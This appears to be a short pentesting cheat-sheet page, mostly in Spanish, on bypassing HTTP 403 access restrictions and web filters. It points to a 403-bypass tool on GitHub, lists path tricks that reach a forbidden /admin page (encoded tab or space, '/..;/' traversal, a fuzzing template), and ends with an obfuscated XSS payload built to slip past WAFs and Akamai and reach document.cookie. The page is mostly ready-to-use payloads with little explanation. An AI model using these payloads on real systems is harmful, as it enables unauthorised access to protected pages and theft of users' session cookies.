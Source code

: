 ```yaml
---
icon: face-shush
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Bypass

## <mark style="color:orange;">Error 403</mark>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
git clone https://github.com/nazmul-ethi/Bypass-Four03.git
```

## <mark style="color:orange;">Alternativas para bypass 403</mark>

1- Usar símbolos de espacio

```
/admin -> 403
```

```
/admin%09 -> 200
```

```
/admin%20 -> 200
```

2- Usar el recorrido transversal:

```
/admin -> 403
```

```
/..;/admin -> 200
```

A veces se puede hacer un fuzz con el recorrido que termina con los resultados

```
/..;/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:orange;">Bypass XSS WAF and Filters and Akamai</mark>

```
%22onmouseover=window[%27al%27%2B%27er%27%2B([%27t%27,%27b%27,%27c%27][0])](document[%27cooki%27%2B(['e','c','z'][0])]);%22
```
